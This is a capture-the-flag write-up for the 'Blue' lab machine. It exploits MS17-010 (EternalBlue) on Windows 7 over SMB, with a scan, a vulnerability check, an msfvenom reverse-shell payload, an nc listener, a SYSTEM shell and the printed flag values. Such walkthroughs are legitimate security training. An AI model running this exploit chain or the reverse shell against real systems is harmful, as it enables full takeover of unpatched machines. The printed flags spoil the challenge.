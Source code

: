 Running our `nmap` scan

```php
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
```

We do see SMB so lets investigate, what SMB shares we can find on blue

```php
smbclient -L \\\\10.129.9.241\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk 
```

We find 5 shares currently present

We do know that there is a famous windows 7 exploit, `MS17-010`
We're gonna exploit this manually, no metasploit

```php
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```

Lets just run the checker script to verify that blue is vulnerable to `MS17-010`

```python
python eternal_checker.py 10.129.9.241

[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

We're all good to go, lets get to hacking
Lets develop a payload to establish a reverse shell on port 4444 that we will be waiting on.

```php
msfvenom -p windows/shell_reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.209 LPORT=4444 -f exe > shell.exe
```

In the exploit we downloaded there is a script to help us generate a shell payload
```
./shell_prep.sh
```

We provide it with our IP and the port it will connect to, `sc_x64.bin`

Lets setup a listener too for port 4444

```php
nc -nvlp 4444
Listening on 0.0.0.0 4444
```

Now we run the Eternal Blue exploit script, specifically the one meant for windows 7 machines while also providing it the `shell.exe` payload we generated

```php
python eternalblue_exploit7.py 10.129.9.241 shellcode/sc_x64.bin
```

We have gained a shell

```php
Connection received on 10.129.9.241 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

And on this shell have system authority

```php
C:\Windows\system32>whoami
nt authority\system
```

Lets check how many users we have on this machine

```php
cd C:\Users
dir

21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
```

Lets navigate to the Desktop for `haris` and `Administrator` for the flags

User Flag: `60554c5ee6550115efd18163c692747e`
Root Flag: `bf5600fb6ef57348a523ba507769ec0e`


